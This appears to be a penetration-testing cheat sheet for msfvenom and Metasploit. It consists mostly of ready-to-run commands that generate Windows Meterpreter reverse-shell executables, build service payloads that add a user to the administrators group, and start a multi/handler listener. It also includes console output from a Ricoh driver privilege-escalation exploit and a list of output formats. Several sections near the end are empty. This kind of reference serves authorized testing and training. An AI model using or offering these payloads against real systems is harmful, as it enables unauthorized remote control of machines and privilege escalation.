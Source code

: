 - [Syntax](#syntax)
- [32 bit](#32-bit)

# [Syntax](#syntax-1)
(not case sensitive, variable can be used for LHOST)
```sh
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -o <OUTPUT>
msfvenom -p <PAYLOAD> LHOST=<IP> LPORT=<port> -f <FORMAT> -e <ENCODER> -i <ENCODE COUNT> -o <OUTPUT>
```

## [32 bit](#32-bit-1)
```sh
myip=127.0.0.1
port=3232
msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=$port -f exe -o rev3232.exe
```
```sh
msfvenom -p windows/exec CMD='net localgroup administrators {user} /add' -f exe-service -o {p4yl04d.exe}
msfvenom -p windows/exec CMD='net localgroup administrators bitbucket /add' -f exe-service -o Zero.exe
```
### Capture 32 vs 64 bit (exploit/multi/handler) in One Liner
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $myip;set LPORT $port;run;"
```

### Capture 32 vs 64 bit (exploit/multi/handler)
```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

# or

set payload windows/x64/meterpreter/reverse_tcp
```

### Examples 
```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

### list all payloads
```
msfvenom -l payloads
```

## Common Mistake

### The payload should use the same architecture as the target driver
```sh
msf6 exploit(windows/local/ricoh_driver_privesc) > run 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[-] Exploit aborted due to failure: bad-config: The payload should use the same architecture as the target driver
[*] Deleting printer 
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) >
```

## 
```sh
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -a x64 -f exe -o rev64.exe           
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Error: The selected arch is incompatible with the payload
```

## 
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=$myip lport=6464 -a x64 -f exe -o r64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: r64.exe
```

## 
```sh
$ file r*     
r32.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections
r64.exe: PE32+ executable (GUI) x86-64, for MS Windows, 3 sections
```

### Options:
```sh
-l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all

-p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
   --list-options               List --payload <value>'s standard, advanced and evasion options

-f, --format          <format>   Output format (use --list formats to list)
```

### list format; -lf or -l -f or --list format (if you like to type)
```sh
$ msfvenom -lf

Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    ducky-script-psh
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs                                                                                                                         
    macho                                                                                                                            
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    go
    golang
    hex
    java
    js_be
    js_le
    masm
    nim
    nimlang
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    rust
    rustlang
    sh
    vbapplication
    vbscript
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# References

[MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
